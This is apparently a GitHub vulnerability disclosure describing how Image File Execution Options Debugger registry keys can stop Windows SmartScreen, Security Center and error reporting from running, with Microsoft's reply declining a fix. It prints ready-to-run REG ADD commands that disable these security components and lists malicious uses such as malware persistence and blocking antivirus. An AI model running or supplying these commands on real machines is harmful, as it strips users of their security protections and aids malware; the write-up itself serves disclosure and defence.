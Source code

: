 # Block Smartscreen and Security Center on Windows Operating Systems
&emsp; On the evening of May 29 (2022), I made the necessary notifications to the "Microsoft Security Center" [ VULN-068278].
However, according to the reply received by e-mail on June 10, "We determined that an immediate fix will not be released for the reported behavior. It was recommended to hardened because the relevant vulnerability requires **Administrator authority**. We have closed this case" .
For this reason, I wanted to warn users by posting this vulnerability or weakness in my account on Github.


&emsp; If any executable file is added to ("HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\") the regedit path and a debugger flag is set, another program can be run before that program is run. 
If the program that is run first does not invoke the relevant program in any way, it can replace the relevant program.
This can prevent various important programs from running. 
This is valid for important processes of Windows.


&emsp; For example, if you want to block Smartscreen
```
REG ADD "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\smartscreen.exe" /v Debugger /d "cmd.exe /C >null: 2>null:"
```


&emsp; For example, if you want to block Security Center (Windows Defender and other tools)
```
REG ADD "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\securityhealthhost.exe" /v Debugger /d "cmd.exe /C >null: 2>null:"
REG ADD "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\secHealthUI.exe" /v Debugger /d "cmd.exe /C >null: 2>null:"
REG ADD "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\werFault.exe" /v Debugger /d "cmd.exe /C >null: 2>null:"
```

<dl>
  <dt> The purposes of using this vulnerability can basically be listed as follows.
  <dd>
  <dd> 1) It can provide persistence for malware software.
  <dd> 2) Although it is different in function and structure, similar attacks that can be made by interfering with the system call table can also be made using this vulnerability.
  <dd> 3) Security measures such as Smartscreen, Windows Defender, etc. that come integrated with Windows can be blocked.
For example, although Windows Defender cannot be blocked directly, Windows Defender is prevented from running by preventing the components necessary for it to work.
In the example, Windows Security Center has been prevented from working, and related components have become inoperable.
  <dd> 4) In particular, third-party virus scanning and security software can be blocked.
Also, any other third-party software may be blocked from running.
  <dd> 5) Processes used for forensic purposes that are integrated with Windows can be blocked.
  <dd> 6) By blocking the components necessary for the operation of Windows, operations such as "sending error reports" and "receiving updates" can be rendered inoperable.
For example, by blocking the "calcs" command, access to certain folders and files can be prevented by preventing the user and Windows from accessing the access control list.
</dl>


Video and Screenshots of the Vulnerability
---
&emsp; A simple video has been posted on Youtube to demonstrate the vulnerability. 
It can be viewed at the link below.

&emsp; **[Youtube Link]** https://www.youtube.com/watch?v=_rQrLeDaFSU


**[ScreenShot 1]**
![e3](https://user-images.githubusercontent.com/71177413/173035204-a42ff30d-6dd0-4dde-8c53-10384db37ed2.JPG)


**[ScreenShot 2]**
![e4](https://user-images.githubusercontent.com/71177413/173035010-04fef1aa-7eac-4891-8541-5bcd57d70390.png)


**[ScreenShot 3]**
![e6](https://user-images.githubusercontent.com/71177413/173035082-fd6e2075-7c98-4786-a50a-d35db152027a.png)


Exploiting the Vulnerability
---
&emsp; As an example, a script has been written to show how a malware can exploit this vulnerability.
The **"block.py"** script has been added to the files as an example in order to represent what we call the first stage in malware attacks

**block.py**
```
(Administrator authority)>> block.py malware.exe
```



Additional information on malwares
---
&emsp; In order to evaluate the vulnerability, basic information about malware-type attacks is given.

**A) Ideal Malware Attacks**
&emsp;

![malware_1](https://user-images.githubusercontent.com/71177413/173053242-7229231b-fad8-4716-90ee-d8572d5c74a6.JPG)
[jpg source: From the training notes, Abdulkadir GÜNGÖR]

**B) Types of Malware**
&emsp;

![malware_2_type](https://user-images.githubusercontent.com/71177413/173053253-a976a2ed-72cf-4579-b97f-0bb6d09a4093.png)
[jpg source: From the book "Linux İşletim Sisteminde Malware Analizi", Abdulkadir GÜNGÖR, ISBN:978-625-409-378-4]


**C) Final Stage**
&emsp;

![malware_3](https://user-images.githubusercontent.com/71177413/173053274-478c0e9f-67d0-4b93-b842-061c611fbde2.JPG)
[jpg source: From the training notes, Abdulkadir GÜNGÖR]


Disclaimer
---
&emsp; Information and projects published by me on Github are entirely at the user's own risk.
I'm not responsible in any way for any kind of damage that is done to your computer / os / program as cause of this project.
Make sure to use virtual systems as a test environment!


Legal Warning
---
&emsp; Run your tests on virtual machines. The responsibility for illegal use belongs to the user. Shared for educational purposes.
